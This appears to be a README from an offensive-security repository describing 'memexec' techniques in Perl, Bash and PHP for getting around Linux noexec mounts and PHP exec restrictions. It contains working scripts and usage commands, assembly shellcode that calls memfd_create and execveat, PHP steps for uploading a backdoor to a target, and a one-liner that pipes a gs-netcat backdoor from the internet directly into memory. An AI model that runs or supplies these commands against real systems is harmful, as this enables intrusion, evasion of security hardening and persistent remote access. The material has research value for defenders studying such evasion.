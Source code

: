 ## Circumvent the `noexec` mount flag on Linux and execute abritrary binaries

This if useful on a Linux system when all writeable locations are mounted with `-o noexec` (including /dev/shm) or to escape PHP's 'exec' restrictions.

Use _one_ of the 3 scripts (perl, bash, php):

- The binary does not need to have +x
- The binary can reside on a noexec-partition
- Mostly the binary can be piped directly from the Internet into the memory (and executed there)
- Works as non-root user
- The PHP variant also circumvents PHP's "exec" restrictions.
- It injects shellcode into the running process and calls [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) and [execveat(2)](https://man7.org/linux/man-pages/man2/execveat.2.html) to load a binary from a noexec-partition (or directly from the Internet).
- BASH and PHP do not support SYSCALLS. We advanced an old trick.

Read the [circumventing the noexec Article](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) for more....

`TIME_STYLE` and `-lah` are used as an example to pass through environment parameters and command line options. 

### PERL example:
```sh
source memexec-perl.sh
cat /bin/ls | TIME_STYLE=+%s memexec -lah
```
This was golfed by the fine people on Mastodon ([@acut3hack](https://@acut3hack@infosec.exchange), [@addision](https://@addison@nothing-ever.works), [@ilv](https://@ilv@infosec.exchange))

### BASH example (by [@messede-degod](https://github.com/messede-degod)):
```sh
source memexec-bash.sh
cat /bin/ls | TIME_STYLE=+%s memexec -- -lah
```

### The PHP variant also circumvents ["shell_exec" restrictions](https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/).

1. Upload `memexec.php` and `egg` (your backdoor) onto the target
2. Call `curl -SsfL https://target/memexec.php` to execute `egg` and bypassing noexec restrictions

(This is my way of saying "hey. how are to?" to my old [team-teso](https://en.wikipedia.org/wiki/TESO_(Austrian_hacker_group)) colleague and long time PHP developer [@i0nic](https://x.com/i0n1c))

---

The educated reader understands that this is mostly used to pipe a backdoor from the Internet directly into memory, even when execution is prohobited by `noexec`:
```shell
curl -SsfL https://gsocket.io/bin/gs-netcat_mini-linux-x86_64 | GS_ARGS="-ilD -s ChangeMe" perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV' -- "$@"
```
---

For the addicts, here is the nasm of the shellcode (memfd_create, copy loop & execveat):
```nasm
; nasm -felf64 memexec.nasm && ld memexec.o &&  ./a.out

global _start
section .text

_start:
    push    0x00676765  ; "egg"
    mov     rax, 0x13f
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = no MFD_CLOEXEC
    syscall
    mov     r8, rax

    mov     rax, 2
    mov     rdi, rsp    ; arg 1: name [egg]
    xor     rsi, rsi    ; arg 2: 0 = O_RDONLY
    syscall
    mov     r9, rax

loop:
    sub     rsp, 0x400
    xor     rax, rax    ; arg 0: read_NR
    mov     rdi, r9     ; arg 1: FD [egg]
    mov     rsi, rsp    ; arg 2: buffer
    mov     edx, 0x400  ; arg 3: length
    syscall

    cmp     rax, 0x00
    jle     done        ; EOF

    mov     rdx, rax    ; arg 3: length (from read()) 
    mov     eax, 0x01   ; arg 0: write_NR
    mov     rdi, r8     ; arg 1: FD [memfd]
    syscall
    jmp     loop
done:

    mov     rax, 322    ; arg 0: execveat_NR
    mov     rdi, r8     ; arg 1: memfd
    push    0x00        ; an empty string
    mov     rsi, rsp    ; arg 2: path (empty string)
    mov     rdx, rsp    ; arg 3: ARGV points to empty string
    xor     rcx, rcx    ; arg 4: ENV
    mov     r8, 0x1000  ; arg 5: AT_EMPTY_PATH
    xor     r9, r9      ; arg 6: must be clean
    xor     r10, r10    ; arg 7: must be clean
    syscall

    mov     rax, 60
    xor     rdi, rdi
    syscall
```

